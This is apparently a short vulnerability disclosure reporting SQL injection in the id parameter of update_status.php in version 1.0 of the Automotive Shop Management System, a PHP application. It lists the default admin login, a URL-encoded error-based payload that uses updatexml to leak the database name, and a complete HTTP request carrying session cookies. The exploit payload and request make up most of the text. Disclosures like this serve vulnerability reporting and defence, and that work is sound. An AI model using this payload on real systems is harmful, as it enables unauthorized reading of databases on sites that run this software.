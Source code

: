 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: thir3een13

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /asms/admin/transactions/update_status.php?id=

Vulnerability location: /asms/admin/transactions/update_status.php?id=, id

dbname =asms_db,length=7

[+] Payload: /asms/admin/transactions/update_status.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /asms/admin/transactions/update_status.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/198026959-55ed2da7-91d8-4f1e-b493-6bcfc888ad9d.png)
